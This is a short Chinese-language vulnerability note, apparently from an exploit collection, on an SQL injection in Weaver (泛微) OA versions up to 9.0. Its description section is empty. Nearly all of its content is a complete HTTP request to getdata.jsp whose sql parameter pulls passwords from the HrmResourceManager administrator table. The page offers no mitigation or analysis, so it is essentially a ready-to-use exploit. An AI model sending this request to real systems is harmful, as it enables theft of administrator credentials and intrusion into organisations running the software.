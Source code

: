 泛微OA \< =9.0 sql注入漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

泛微OA \< =9.0

三、复现过程
------------

    GET //js/hrm/getdata.jsp?cmd=getSelectAllid&sql=select%20password%20as%20id%20from%20HrmResourceManager HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie:
    Connection: close
